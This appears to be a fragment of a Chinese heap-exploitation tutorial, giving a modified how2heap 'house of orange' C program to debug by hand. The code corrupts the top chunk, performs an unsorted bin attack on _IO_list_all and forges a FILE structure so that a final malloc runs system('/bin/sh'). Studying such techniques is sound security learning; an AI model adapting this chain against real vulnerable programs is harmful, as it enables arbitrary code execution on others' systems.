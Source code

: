 

#### 实例:

1. 1：修改了 how2heap 的 houseoforange 代码，可以自己动手调试一下：

   ```c
   #include <stdio.h>
   #include <stdlib.h>
   #include <string.h>
   int winner ( char *ptr);
   int main()
   {
       char *p1, *p2;
       size_t io_list_all, *top;
       // unsorted bin attack
       p1 = malloc(0x400-16);
       top = (size_t *) ( (char *) p1 + 0x400 - 16);
       top[1] = 0xc01;
       p2 = malloc(0x1000);
       io_list_all = top[2] + 0x9a8;
       top[3] = io_list_all - 0x10;
       
       // _IO_str_overflow conditions
       char binsh_in_libc[] = "/bin/sh"; // we can found "/bin/sh" in libc, here i create it in stack
       // top[0] = ~1;
       // top[0] &= ~8;
       top[0] = 0;
       top[4] = 0; // write_base
       top[5] = 1; // write_ptr
       top[7] = (size_t)&binsh_in_libc; // buf_base
       top[8] = 0; // buf_end
       
       // house_of_orange conditions
       top[1] = 0x61;
       //top[20] = (size_t) &top[18];
       top[21] = 2;
       top[22] = 3;
       top[24] = -1;
       top[27] = (size_t)stdin - 0x1160 -8; // _IO_str_jumps地址
       top[29] = (size_t) &winner;
   
       /* Finally, trigger the whole chain by calling malloc */
       malloc(10);
       return 0;
   }
   int winner(char *ptr)
   { 
       system(ptr);
       return 0;
   }
   ```
